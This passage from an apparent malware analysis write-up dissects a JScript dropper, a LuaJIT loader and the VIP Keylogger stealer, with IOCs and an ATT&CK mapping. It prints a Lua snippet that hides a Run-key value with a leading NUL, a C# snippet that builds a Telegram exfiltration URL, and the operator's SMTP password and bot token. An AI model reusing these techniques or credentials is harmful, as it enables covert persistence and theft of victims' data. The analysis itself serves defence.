
*If `TPHXGPBTXHOMPDIC.mui` exists, write `CIDPMOHXTBPGXHPT.vbs`, a three-line launcher that runs the exe with the Lua script as argument.*

Then it registers the `.vbs` in `HKU\<SID>\Software\Microsoft\Windows\CurrentVersion\Run` — but not through the normal API. It opens the key with `RegOpenKeyExW` (that's what `advapi32` was loaded for) and writes the value with **`NtSetValueKey`**, using a name that **starts with a null character**:

```lua
local s, i = H("\000" .. e)          -- value name = "\0TPHXGPBTXHOMPDIC"
local S = ffi.new("UNICODE_STRING")
S.Buffer = s; S.Length = i - 2; S.MaximumLength = i
NtSetValueKey(hKey, S, 0, 1, path_to_vbs, len)   -- REG_SZ
print("[+] hidden run value written: " .. e)
```

The native API uses counted strings, so a leading `\0` is fine there. The Win32 API, `regedit` included, treats it as an empty, terminated string, so the value is hard to see or delete with the usual tools — but Windows still runs it at logon.

The marker file is exactly the `.mui` the JScript dropper would have written in its `"BBBBBSTBBBBB" === "YESSSSSSSS"` branch. Since that branch is always false, **persistence is off in this build**: it's a builder option that whoever made this sample left unticked.

## Stage 3 — VIP Keylogger (.NET)

```
$ sha256sum payload.bin
8188f845af0212fac2ef1e3e4bf37ec576cf85b52e40973ed10adcfd03f43fc6
$ md5sum payload.bin
18d01e88d74abaadcebcb6ed51a32804
```

A 274 944-byte .NET assembly called **Remington**. I first ran it through **de4dot** and then `ilspycmd`, and later compared the result with a direct decompilation of the original. de4dot reports `Unknown Obfuscator`, and the two outputs are equivalent: same 18 files, same classes, same 32 `DllImport`s, same number of `goto`s and `switch`es. de4dot only renamed locals, cleaned up some control flow, and renamed P/Invoke methods after their entry points (`ExitProcess23` → `ExitProcess`, `MoveFile232` → `MoveFileExW`, `GetModuleFileNameqwq` → `GetModuleFileNameA`, `SetHook` → `SetWindowsHookExA`). So de4dot wasn't needed here — the original names are actually nicer for attribution.

The class names already tell the story: `COVID19` (main), `VIPSeassion`, `VIPF_Based`, `FFDecryptor`, `SQLiteHandler`, `AesGcm`, `BCrypt`, `NativeClipboard`, and the log header says `Stub Version: 4.4` and `| / VIP Recovery \`. This is **VIP Keylogger**.

### Main: a long list of thefts


*`ClickTracker`, `DelayExcute`, `AntiVm`, `AntiSandboxie`, `FakeMessageBox`, `SelfHidden`, `DisableWD`, `*_Disabler`, `ProcessKiller`, `Browser_Killer`… then `COVIDSTOutlook`, `COVIDSTFoxmail`, `COVIDSTThunderbird`, `COVIDSTChrome`…*


*After passwords, cookies, credit cards, autofill, downloads, history and top sites for ~40 Chromium browsers and several Firefox-based ones, it grabs Wi-Fi profiles, the Windows product key, Discord, FileZilla, Pidgin, and address books from Thunderbird, Outlook and Foxmail. Then `AntiBotStart()`, `NormalStart()`, `Application.Run()`.*

Many of the methods at the top (`AntiVm`, `DelayExcute`, `DisableWD`, `NormalStart`…) have **empty bodies** in this build. The builder clearly generates the stub with only the selected features filled in. Chromium data is decrypted with DPAPI + AES-GCM (through `bcrypt.dll`), Firefox-family data through `nss3` (`FFDecryptor`).

### Encrypted config

The configuration is assigned in the static constructor, and every interesting value goes through one function:


*SMTP, Discord, FTP, Telegram… Some values are real ciphertext, others are still builder placeholders like `%$DiscordWebhookURL$%`.*


*Key = the first 8 bytes of `MD5(ASCII(pass))`, DES in ECB mode, input in base64.*


*The password is a field called `Prision`: `BsrOkyiChvpfhAkipZAxnnChkMGkLnAiZhGMyrnJfULiDGkfTkrTELinhfkLkJrkDExMvkEUCxUkUGr`.*

```python
key = hashlib.md5(b"BsrOkyiChvpfhAkipZAxnn…UkUGr").digest()[:8]
pt  = DES.new(key, DES.MODE_ECB).decrypt(base64.b64decode(ct))   # + PKCS7 unpad
```

All 16 `DES_Decrypt` calls of the config, plus three wrappers (`KC`, `KX`, `KD`) that have the ciphertext built in and receive their key from the caller:

| Field | Value |
|---|---|
| `isSMTP` / `isTelegram` | `True` / `True` |
| `TheSMTPServer` : `TheSMTPPort` | **`hosting2.ro.hostsailor.com:587`** |
| `TheSMTPEmail` (sender) | **`reports11@tonicables.top`** |
| `TheSMTPReciver` (recipient) | **`report11@tonicables.top`** |
| `TheSMTPPSWD` | **`7213575aceACE@@#`** *(followed by three spaces)* |
| `TheTelegramToken` | **`8071660627:AAFb60NRq4wg_o7DhXUr5cIhpwAsiUS1IlI`** |
| `TheTelegramID` (chat) | **`5630866666`** |
| `KC("nnrCOnrJyiwsACMwnkEJB")` | `https://api.telegram.org/bot` |
| `KX("JyxTBTUpBksniyThhJvAC")` | `/sendDocument?chat_id=` |
| `KD("QEknLJAwBvLDvEBGMDiAZ")` | `application/x-ms-dos-executable` |
| Discord, FTP, Outlook-Telegram, Panel | unreplaced builder placeholders → disabled |

The Telegram URL is assembled with `string.Concat`:

```csharp
string url = string.Concat(new string[6] {
    KC("nnrCOnrJyiwsACMwnkEJB"),   // https://api.telegram.org/bot
    TheTelegramToken,
    KX("JyxTBTUpBksniyThhJvAC"),   // /sendDocument?chat_id=
    TheTelegramID,
    "&caption=",
    " Pc Name: " + Environment.UserName + " | / VIP Recovery \\\r\n\r\nClipboard | " + …
});
```

so the logs go out as documents to `https://api.telegram.org/bot8071660627:AAFb60NRq4wg_o7DhXUr5cIhpwAsiUS1IlI/sendDocument?chat_id=5630866666`, with the victim's user name and the `VIP Recovery` banner as caption. The fake content type `application/x-ms-dos-executable` is used for a `.txt` upload.

### The C2

So **the C2 of this sample is not a server of its own**:

- **SMTP** — `hosting2.ro.hostsailor.com:587`, from `reports11@tonicables.top` to `report11@tonicables.top`.
- **Telegram Bot API** — bot `8071660627`, chat `5630866666`, method `sendDocument`.

Before sending, it collects the public IP from `http://checkip.dyndns.org/` and geolocation from `https://reallyfreegeoip.org/xml/` (user agent `Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; .NET CLR1.0.3705;)`). `AntiBotStart` then checks that information against four IPs (`89.208.29.130`, `69.55.5.249`, `141.226.236.91`, `3.23.155.57`) and the string `WALKER` — sandbox fingerprints. If there's a match, nothing is sent. Otherwise each category of stolen data goes out once (`Once_PW_Sender`, `Once_Cookies_Sender`, `Once_CreditCard_Sender`…), 1.5 seconds apart.

There is more infrastructure in the code that this build never uses:

- `multi = "http://varders.kozow.com:8081,http://aborters.duckdns.org:8081,http://anotherarmy.dns.army:8081"`
- a panel at `http://51.38.247.67:8081/_send_.php?L`, only reached when `Telegram_Side == "%Server%"`. Here `Telegram_Side` is still the raw placeholder `%Telegram_Side%`, so that path is dead.

I'm listing them as IOCs anyway, since they belong to the same operator or builder.

## Architecture Overview

```
be972152...d3.js (3.98 MB JScript, \u2644 split + junk functions)
 ├─ cmd /c echo. > "<self>:Zone.Identifier"          (MotW removed)
 ├─ 4 blobs: reverse → strip filler → base64 (MSXML) → ADODB.Stream
 │   └─ %USERPROFILE%\Documents\
 │       ├─ TPHXGPBTXHOMPDIC.exe   LuaJIT host, signed Sangfor
 │       ├─ libluajit.dll          signed Sangfor
 │       ├─ vcruntime140.dll       Microsoft
 │       └─ CIDPMOHXTBPGXHPT       Lua script (Prometheus)
 └─ Run "TPHXGPBTXHOMPDIC.exe  CIDPMOHXTBPGXHPT" (hidden)
     └─ Stage 2 Lua (via LuaJIT FFI)
         ├─ constants: rotate(150) + custom base64
         ├─ AMSI: wipe AmsiScanBuffer/AmsiInitialize names in clr.dll
         ├─ ETW & co: ret+nop patch on EtwEventWrite*, NtTraceEvent, NtTerminateProcess…
         ├─ decoys: guard pages, 1 MB buffer of fake strings
         ├─ [dormant] if TPHXGPBTXHOMPDIC.mui: .vbs + Run value "\0TPHXGPBTXHOMPDIC"
         ├─ payload: base64 → XOR(14-byte key) → reverse → ROT-94
         └─ process hollowing → MSBuild.exe (32-bit)
             └─ Stage 3 VIP Keylogger ("Remington", stub 4.4)
                 ├─ config: DES-ECB, key = MD5("Prision")[:8]
                 ├─ steals: browsers, mail clients, Wi-Fi, product key, FTP, IM
                 ├─ anti-bot: 4 IPs + "WALKER"
                 └─ exfil: SMTP hostsailor:587 + Telegram sendDocument
```

## IOCs

| Type | Value |
|---|---|
| SHA256 (JScript dropper) | `be972152b59642efc417b9e01c0794611acc3af9644f8330adf3b5f7ed4864d3` |
| SHA256 (Lua script `CIDPMOHXTBPGXHPT`) | `91f6d1648ebb4183f595e150dcabd0df8e35c3539262ac281bf8897b58fd643b` |
| SHA256 (VIP Keylogger) | `8188f845af0212fac2ef1e3e4bf37ec576cf85b52e40973ed10adcfd03f43fc6` |
| SHA256 (LuaJIT host, legit, renamed) | `f5163ecb12e440d916b028faa34758a971f2396f12118ca0b40bdaead1108767` |
| SHA256 (`libluajit.dll`, legit) | `6b53c5c6890c47de35244d5fba9c33501caa9e4fe2590699ef343d272064f710` |
| SHA256 (`vcruntime140.dll`, legit) | `184146852727a9db4eea06178716bec3cdbb1015c911f6b0f915b184ad7775b2` |
| Code-signing cert abused | Sangfor Technologies Inc., serial `09F980676D7D7E8D5EB042D2DF477848` |
| Files | `%USERPROFILE%\Documents\TPHXGPBTXHOMPDIC.exe`, `CIDPMOHXTBPGXHPT`, `libluajit.dll`, `vcruntime140.dll`; dormant: `TPHXGPBTXHOMPDIC.mui`, `CIDPMOHXTBPGXHPT.vbs` |
| Registry (dormant) | `HKU\<SID>\Software\Microsoft\Windows\CurrentVersion\Run`, value `\0TPHXGPBTXHOMPDIC` |
| Host process | `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe` |
| SMTP exfil | `hosting2.ro.hostsailor.com:587`, `reports11@tonicables.top` → `report11@tonicables.top`, password `7213575aceACE@@#` (+3 spaces) |
| Telegram exfil | `https://api.telegram.org/bot8071660627:AAFb60NRq4wg_o7DhXUr5cIhpwAsiUS1IlI/sendDocument?chat_id=5630866666` |
| Unused C2 in code | `varders.kozow.com:8081`, `aborters.duckdns.org:8081`, `anotherarmy.dns.army:8081`, `http://51.38.247.67:8081/_send_.php?L` |
| Recon URLs | `http://checkip.dyndns.org/`, `https://reallyfreegeoip.org/xml/` |
| Strings | `TPHXGPBTXHOMPDIC`, `VIP Recovery`, `Remington`, `Stub Version: 4.4`, `Prision` key |

## MITRE ATT&CK Mapping

| Technique | ID | Where |
|---|---|---|
| JavaScript | T1059.007 | Stage 1 dropper |
| Lua | T1059.011 | Stage 2, run by the LuaJIT host |
| Obfuscated Files or Information | T1027 | `\u2644` split, Prometheus, encrypted payload and config |
| Deobfuscate/Decode Files or Information | T1140 | base64 variants, XOR, ROT-94, DES |
| Mark-of-the-Web Bypass | T1553.005 | `echo. > :Zone.Identifier` |
| Masquerading | T1036 | Signed LuaJIT host renamed to `TPHXGPBTXHOMPDIC.exe` |
| Native API | T1106 | LuaJIT FFI calls to `ntdll`/`kernel32` |
| Process Hollowing | T1055.012 | Into `MSBuild.exe` |
| Disable or Modify Tools (AMSI) | T1562.001 | `clr.dll` string wipe |
| Indicator Blocking (ETW) | T1562.006 | `EtwEventWrite*` / `NtTraceEvent` patched |
| Registry Run Keys (dormant) | T1547.001 | `\0TPHXGPBTXHOMPDIC` |
| Modify Registry / Hide Artifacts | T1112 / T1564 | NUL-prefixed value via `NtSetValueKey` |
| Credentials from Web Browsers | T1555.003 | ~40 Chromium + Firefox-based browsers |
| Credentials from Password Stores | T1555 | Outlook, Foxmail, Thunderbird, FileZilla, Pidgin… |
| Steal Web Session Cookie | T1539 | `Cookies_*` |
| Clipboard Data | T1115 | `Clipboard_Recovered` |
| System Network Configuration Discovery | T1016 | `checkip.dyndns.org`, geo lookup |
| Virtualization/Sandbox Evasion | T1497 | Anti-bot IP / `WALKER` check |
| Exfiltration Over Alternative Protocol: SMTP | T1048.003 | `hostsailor:587` |
| Exfiltration Over Web Service | T1567 | Telegram `sendDocument` |

## Conclusion

What I liked about this chain is that **every executable involved is legitimate**. The JScript is run by `wscript`/`cscript`, the Lua runs inside a LuaJIT host signed by Sangfor, and the stealer ends up inside Microsoft's `MSBuild.exe`. The only malicious artifacts on disk are a script and a text file. LuaJIT's FFI is what makes this work: it turns a "harmless" scripting runtime into something that can patch `ntdll`, unhook AMSI and do a full process hollowing without a single malicious PE being written to disk.

The obfuscation itself is layered but not strong. The JScript junk falls to a regex. Prometheus' string table is a rotation plus a shuffled base64 alphabet, both fully described in the script. The payload sits in the same file with its XOR key in front of it. The final config uses DES with the password in a field next to it. As usual, the key ships with the lock — the work is just patience.

The other thing that stands out is how much of this is **builder-driven**. The persistence is there but switched off by a marker file the dropper never writes. The stealer has a dozen anti-analysis methods with empty bodies, Discord/FTP/panel options left as placeholders, and a whole C2 server path that's never reached. Whoever built this sample only ticked "SMTP" and "Telegram".

### Limitations

- The dropper was run once (neutered, in an isolated VM) to collect the dropped files. The four blob decoders were understood but not re-implemented.
- Everything after that is static. I never ran the Lua stage or the .NET payload, and never contacted the exfil accounts.
- The exe's behaviour (load `argv[1]` as a Lua script) comes from its imports and the call path from `main`, not from tracing every line.
- The order of the hollowing steps is read from the Lua code; I didn't watch it happen.
- The list of stolen data comes from the method names in `Main` and their implementations; I didn't verify each browser's parser.
